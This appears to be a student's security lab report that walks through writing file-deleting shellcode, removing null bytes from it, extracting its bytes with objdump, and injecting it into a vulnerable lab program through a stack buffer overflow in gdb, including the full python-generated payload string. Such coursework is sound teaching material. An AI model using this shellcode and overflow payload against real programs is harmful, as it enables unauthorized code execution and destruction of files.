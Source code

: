 # LAB2

**Student ID:** 22110038
**Name:** Phan Triệu Huy 

## Delete File dummyfile:
create file dummy and setup:

![image](https://github.com/user-attachments/assets/a258dbbe-9919-4b30-8b27-a4408987cfbb)

**change file_del.asm**:

Because eax is 32 bits register so when we move a small value into eax, the high bits of this register (24 bits) will automatically be filled with 0.

We need to edit a few lines of code in file_del.asm:

  Use al register. Because this is the lowest 8-bit part of the eax register. When you move a value into al, only 8-bits (1 byte) are changed, not affecting the rest of eax.

  Clear the eax register using command:

xor eax, eax

  Replace move eax, 10 with:

mov al, 8

add al, 2

![image](https://github.com/user-attachments/assets/1404b019-75f9-4914-867d-a3c51679ba3d)

**generate shellcode**:
  for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
![image](https://github.com/user-attachments/assets/75c66888-246a-47ca-8d74-1039ed389a0b)
**Run gdb:**
set breakpoint at    0x0804846b <+48>:    mov    eax,0x0
![image](https://github.com/user-attachments/assets/0d074529-21c3-4258-bab4-ec8d37ab9793)

run code (it's still x00 at the end, so i will change it):
  r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x89\xc0\x34\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x01' + 'a'*32 + '\xff\xff\xff\xff')")
after run:
  ![image](https://github.com/user-attachments/assets/1a2cb6fe-7008-434d-ac18-673b80c49fe4)
  
change return address and 0xffffd6cb = 0x00:
![image](https://github.com/user-attachments/assets/74098831-1904-460e-8d92-01ef41caba9d)

and after continue, the result:

![image](https://github.com/user-attachments/assets/fbd2fd9b-5c39-450c-8b69-511415f067fe)















